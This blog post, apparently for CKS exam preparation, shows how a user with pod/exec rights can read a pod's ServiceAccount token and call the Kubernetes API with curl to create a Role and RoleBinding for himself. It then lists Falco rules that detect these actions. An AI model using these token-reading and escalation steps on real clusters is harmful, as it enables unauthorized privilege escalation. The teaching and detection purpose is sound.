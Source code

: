 ```yaml
---
title: "CKS preparation - abusing ServiceAccount to grant privileges"
date: 2021-02-03T06:00:00-04:00
categories:
  - certifications
tags:
  - kubernetes
  - certifications
  - cks
comments: true
---
```


In this article I will show how Kubernetes ServiceAccount can used to gain
privileges. Of course, all this information should be only used for preparation
to CKS exam.

Let's say that we have a developer John, who has limited privileged in
namespace `frontend`:
```
$ kubectl -n frontend auth can-i list pods --as john
no
$ kubectl -n frontend auth can-i create pods --as john
no
$ kubectl -n frontend auth can-i create role --as john
no
```

But for debugging purposes, he was granted with "pod/exec" role. In `frontend`
namespace there is a `service` Pod, running under `service-sa` ServiceAccount,
which has permissions to create, modify or delete roles:
```YAML
apiVersion: v1
kind: ServiceAccount
metadata:
  name: service-sa
  namespace: frontend
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: service-role
  namespace: frontend
rules:
- apiGroups: ["rbac.authorization.k8s.io"]
  resources: ["*"]
  verbs: ["create","update","delete"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: service-binding
  namespace: frontend
subjects:
- kind: ServiceAccount
  name: service-sa
roleRef:
  kind: Role
  name: service-role
  apiGroup: rbac.authorization.k8s.io
```

Now, let's imagine that John wants to get more permissions. To do that, he has
logged into this pod. To interact with kube-api John has to install curl(I am
using alpine in the example):
```bash
apk add curl
```

Next step will be to find serviceAccount's token and kube-api endpoint:
```bash
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
export ENDPOINT=$KUBERNETES_SERVICE_HOST
export NAMESPACE=frontend
```

Knowing that, he ca create a new role via [API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-v1/#create-create-a-role):
```YAML
# Create ROLE in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/roles \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "Role",
    "metadata": {
        "name": "infra-role",
        "namespace": "frontend"
    },
    "rules": [
        {
            "apiGroups": [
                "rbac.authorization.k8s.io"
            ],
            "resources": [
                "*"
            ],
            "verbs": [
                "create",
                "update",
                "delete"
            ]
        }
    ]
}'
```

and assign that role to his entity([API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-binding-v1/#create-create-a-rolebinding)):
```YAML
# Create ROLEBINDING in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/rolebindings \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "infra-binding",
        "namespace": "frontend"
    },
    "roleRef": {
        "apiGroup": "rbac.authorization.k8s.io",
        "kind": "Role",
        "name": "infra-role"
    },
    "subjects": [
        {
            "apiGroup": "rbac.authorization.k8s.io",
            "kind": "User",
            "name": "john"
        }
    ]
}'
```

Since service account has permissions to create new roles and RoleBindings,
new permissions were granted to John:
```bash
$ kubectl -n frontend auth can-i create role --as john
yes
```

As a Cluster Administrator, it's not easy to find such activities. [Falco](https://falco.org/)
is a great tool that can monitor your cluster and report on all user actions.

It comes with a [default set of rules](https://github.com/falcosecurity/charts/blob/master/falco/rules/k8s_audit_rules.yaml),
which would generate alerts on John's actions:
```YAML
- rule: Attach/Exec Pod
  desc: >
    Detect any attempt to attach/exec to a pod
  condition: kevt_started and pod_subresource and kcreate and ka.target.subresource in (exec,attach) and not user_known_exec_pod_activities
  output: Attach/Exec to pod (user=%ka.user.name pod=%ka.target.name ns=%ka.target.namespace action=%ka.target.subresource command=%ka.uri.param[command])
  priority: NOTICE
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrole Created
  desc: Detect any attempt to create a cluster role/role
  condition: (kactivity and kcreate and (clusterrole or role) and response_successful)
  output: K8s Cluster Role Created (user=%ka.user.name role=%ka.target.name rules=%ka.req.role.rules resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrolebinding Created
  desc: Detect any attempt to create a clusterrolebinding
  condition: (kactivity and kcreate and clusterrolebinding and response_successful)
  output: K8s Cluster Role Binding Created (user=%ka.user.name binding=%ka.target.name subjects=%ka.req.binding.subjects role=%ka.req.binding.role resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
```
